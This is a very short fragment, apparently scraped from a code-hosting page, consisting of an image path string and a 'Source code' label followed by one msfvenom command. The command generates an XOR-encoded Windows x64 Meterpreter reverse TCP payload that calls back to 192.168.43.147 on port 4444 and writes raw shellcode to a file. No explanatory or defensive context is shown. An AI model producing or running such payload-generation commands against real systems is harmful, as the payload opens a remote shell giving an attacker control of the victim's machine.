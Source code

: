msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.43.147 LPORT=4444 -a x64 --platform windows -e x64/xor -f raw -o q.hex

